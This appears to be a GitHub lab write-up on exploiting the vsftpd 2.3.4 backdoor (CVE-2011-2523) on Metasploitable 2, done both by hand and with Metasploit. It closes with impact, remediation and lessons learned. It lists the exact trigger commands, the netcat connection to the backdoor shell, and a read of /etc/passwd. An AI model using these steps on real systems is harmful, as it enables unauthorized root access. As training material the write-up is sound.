

# Manual and Metasploit Exploitation of vsftpd 2.3.4 on Metasploitable 2

## Overview

This project covers two methods of exploiting the vsftpd 2.3.4 backdoor vulnerability (CVE-2011-2523) on Metasploitable 2. This specific vulnerability is due to a backdoor introduced by a malicious actor in this particular version of vsftpd.

- **Manual exploitation** using basic tools like `telnet` and `netcat`
- **Automated exploitation** using `msfconsole` (Metasploit Framework)

The goal was to gain a deeper understanding of the vulnerability by exploring both methods, ultimately achieving root shell access.

---

## Lab Setup

| Component      | Details                                  |
|----------------|-------------------------------------------|
| Attacker VM    | Kali Linux (VirtualBox)                  |
| Target VM      | Metasploitable 2                         |
| Network Mode   | Host-Only Adapter                        |
| Tools Used     | `nmap`, `telnet`, `netcat`, `msfconsole`, `ping` |

---

## Exploitation Method 1: Manual (Telnet + Netcat)

### 1. Identify Metasploitable IP Address

```bash
ifconfig
```


---

### 2. Ping from Kali to Confirm Connection

```bash
ping [target IP]
```



---

### 3. Scan Open Ports with Nmap

```bash
nmap -sS -sV [target IP]
```

Result: Port **21/tcp** running `vsftpd 2.3.4`


---

### 4. Trigger the Backdoor with Telnet

```bash
telnet [target IP] 21
```

Login:
```
USER test:)
PASS test
```


---

### 5. Connect to the Backdoor with Netcat

```bash
nc [target IP] 6200
```

Run post-exploit commands:
```bash
whoami
uname -a
cat /etc/passwd
```


---

## Exploitation Method 2: Using Metasploit

### 1. Start Metasploit Console

```bash
msfconsole
```

---


### 2. Search for the vsftpd Exploit

```bash
search vsftpd
```

Use the backdoor module:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```


---

### 3. Set Target Information

```bash
set RHOST [target IP]
```


---

### 4. Run the Exploit

```bash
run
```

Successful output:
```
Found shell.
Command shell session 1 opened...
```


---

### 5. Verify Access

```bash
whoami
uname -a
cat /etc/passwd
```


---

## 🧠 Lessons Learned

### 🛡️ Impact and Remediation

This vulnerability allows for full system compromise, leading to unauthorized access to sensitive data and the ability to pivot to other systems within a network. To mitigate this, it is crucial to upgrade vsftpd to a patched version, implement proper network segmentation, and regularly patch systems.

- Manual exploitation teaches protocol-level logic and networking fundamentals
- Metasploit drastically simplifies the process but understanding the logic behind it is crucial
- Proper network configuration (e.g., NAT vs Host-Only) is critical
- Some backdoors only work **once per boot**, which requires timing or resets

---
## Remediation Document

A detailed remediation document has been created to address the vsftpd 2.3.4 backdoor vulnerability (CVE-2011-2523). It includes a summary of the vulnerability, affected systems, step-by-step mitigation instructions, verification procedures, and recommended ongoing security measures.

The document provides evidence of exploitation and remediation, suitable for audit purposes or knowledge sharing. It can be downloaded and reviewed here: [Full Remediation Report (DOCX)](vsftpd_Remediation_Document.docx)

---
## Final Thoughts

Both approaches led to full system compromise. The manual method built foundational skills while Metasploit demonstrated how automation accelerates real-world penetration testing. This lab reinforced my understanding of network reconnaissance, vulnerability exploitation, and post-exploitation techniques, proving valuable for my offensive security skill set. This was a successful offensive security lab that will be used as a portfolio project.
